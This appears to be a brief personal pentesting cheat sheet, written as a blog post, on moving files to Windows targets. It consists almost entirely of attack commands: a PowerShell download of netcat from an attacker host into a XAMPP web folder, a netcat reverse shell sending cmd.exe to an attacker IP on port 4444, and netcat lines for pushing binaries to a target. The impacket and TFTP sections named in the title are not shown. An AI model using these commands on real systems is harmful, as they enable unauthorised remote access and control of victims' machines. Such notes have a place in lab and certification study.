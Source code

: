 ```yaml
---
layout: post
title:  "file transfer - windows - powershell / impacket-smbserver / tftp"
date:   2022-01-01
categories: web
---
```



# Powershell

## Download Files

```bash

powershell.exe Invoke-WebRequest -Uri "http://<my ip>:81/netcat/nc64.exe" -OutFile "C:\xampp\htdocs\nc.exe"

```

## Reverse Shell


```bash

cmd.exe /c C:\xampp\htdocs\nc.exe -e cmd.exe <my ip> 4444

```

# Netcat

## windows redirect any outpur

```bash
nc -nlvp 4444 > incoming.exe
```

## kali push wget to windows

```bash
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```
